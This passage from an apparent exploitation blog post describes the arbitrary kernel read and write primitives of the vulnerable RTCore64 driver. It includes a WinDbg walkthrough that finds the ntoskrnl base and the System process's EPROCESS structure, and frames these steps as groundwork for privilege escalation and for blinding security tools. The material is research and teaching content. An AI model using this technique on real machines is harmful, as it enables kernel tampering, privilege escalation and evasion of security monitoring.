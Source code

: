 Since the conditions are the same, we’ll use the same `RTCORE64_BUFFER` structure to send data to this IOCTL.

Writing arbitrary memory is almost the same as reading it. At this time, I will not cover writing arbitrary memory as I will be saving this primitive for my next blog post on post-exploitation. As an exercise I encourage you to try implementing the write primitive on your own without looking at existing PoCs.

Individually, these primitives offer their own unique capabilities that are not useful in isolation but when combined, they give an attacker great leverage over the Windows kernel and its data structures that can be abused to elevate privileges and bend the “source of truth” security products and analysts rely on for incident response procedures.

## PoC||GTFO

As a proof of concept, we’ll read an arbitrary address which in this case will be the “ImageFileName” field from the EPROCESS structure for the “System” process (the kernel) via the read primitive in RTCore64. 

We’ll do this by getting the base address of the kernel (via the LSTAR MSR), then the offset to `PsInitialSystemProcess` (to get its virtual address), then read a DWORD64 (QWORD) pointer at the `PsInitialSystemProcess` address, which points to the `EPROCESS` structure of the “System” process, add the offset of the `ImageFileName` field and finally, read another QWORD representing this value. 

This process looks like this in WinDbg:

```
// Read LSTAR MSR
0: kd> rdmsr 0xc0000082
msr[c0000082] = fffff804`eb3ac200

// Get offset from ntoskrnl
0: kd> ? nt!KiSystemCall64Shadow - nt
Evaluate expression: 12239360 = 00000000`00bac200

// Derive ntoskrnl base address from LSTAR offset
0: kd> ? fffff804`eb3ac200 - 00000000`00bac200
Evaluate expression: -8774978895872 = fffff804`ea800000

// Confirm that we indeed got the correct ntoskrnl base address
0: kd> lm m nt
Browse full module list
start             end                 module name
fffff804`ea800000 fffff804`ebc4f000   nt         (pdb symbols)          C:\ProgramData\Dbg\sym\ntkrnlmp.pdb\E6426A07C26E66F8EB8594621A7B273B1\ntkrnlmp.pdb

// Get offset of PsInitialSystemProcess
0: kd> ? nt!PsInitialSystemProcess - nt
Evaluate expression: 16538280 = 00000000`00fc5aa8

// Get real nt!PsInitialSystemProcess address
0: kd> ? nt + 0xfc5aa8
Evaluate expression: -8774962357592 = fffff804`eb7c5aa8
0: kd> ? nt!PsInitialSystemProcess
Evaluate expression: -8774962357592 = fffff804`eb7c5aa8

// Read QWORD pointer to EPROCESS structure of ntoskrnl (0xffffe60d276b1040)
0: kd> dq nt!PsInitialSystemProcess L1
fffff804`eb7c5aa8  ffffe60d`276b1040

// Confirm offset (0x338) to "ImageFileName" field from EPROCESS struct for ntoskrnl
// Read the value
0: kd> dt _EPROCESS ffffe60d`276b1040 -y ImageFileName
nt!_EPROCESS
   +0x338 ImageFileName : [15]  "System"
0: kd> db ffffe60d`276b1040+0x338
```
